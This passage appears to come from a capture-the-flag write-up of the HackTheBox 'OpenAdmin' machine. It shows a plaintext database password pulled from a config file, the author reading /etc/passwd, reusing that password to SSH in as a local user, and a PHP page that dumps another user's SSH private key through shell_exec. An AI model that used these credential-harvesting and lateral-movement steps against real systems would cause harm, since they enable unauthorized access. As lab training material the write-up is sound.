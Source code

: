 ```bash
include
index.php
local
login.php
logout.php
modules
plugins
winc
workspace_plugins
$ ls local/config
database_settings.inc.php
motd.txt.example
run_installer
$ cat /local/config/database_settings.inc.php
$ cat local/config/database_settings.inc.php 
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```
Reading this file we find a password but we cant tell for what user its for.

We use ls to list the contents of the directories as we cannot use `cd` in the restricted shell.

We read the /etc/passwd file to get a list of users and we find that there is a user called `jimmy` on the box.

We ssh as jimmy into the box | `ssh jimmy@10.10.10.171` and use the password `n1nj4W4rri0R!`

We then go to enumerate folders and files and after a while we come accross a `main.php` file in `/var/www/internal`:

```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```
It seems to be reading the ssh key for joanna which is another user on the box, We realise that the method to privelage escalate on this box is going to be through this web page to get the ssh-key.
